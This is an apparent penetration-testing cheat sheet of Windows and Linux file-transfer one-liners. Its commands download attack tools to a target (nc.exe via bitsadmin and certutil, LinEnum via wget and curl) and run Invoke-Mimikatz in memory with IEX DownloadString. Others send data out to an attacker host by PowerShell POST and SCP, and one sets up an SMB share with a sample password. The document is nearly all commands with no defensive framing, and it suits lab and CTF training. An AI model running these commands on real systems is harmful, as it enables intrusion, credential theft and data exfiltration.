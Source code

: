 # File Transfert

% linux, windows


## Download a file with PowerShell
```
Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1
```

## Execute a file in memory using PowerShell
```
IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')
```

## Upload a file with PowerShell
```
Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```

## Download a file using Bitsadmin
```
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

## Download a file using Certutil
```
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

## Download a file using Wget
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

## Download a file using cURL
```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Download a file using PHP
```
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

## Upload a file using SCP
```
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
```

## Download a file using SCP
```
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
```

## Invoke-WebRequest using a Chrome User Agent
```
Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"
```
## Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.
```
python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/
# OR with password support if the previous command failed because GPO blocks anonymous connection
python3 smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share $(pwd)
# Then in powershell, mount the disk
Cmd > net use Z: \\10.10.14.153\share /u:snovvcrash 'Passw0rd!'
```
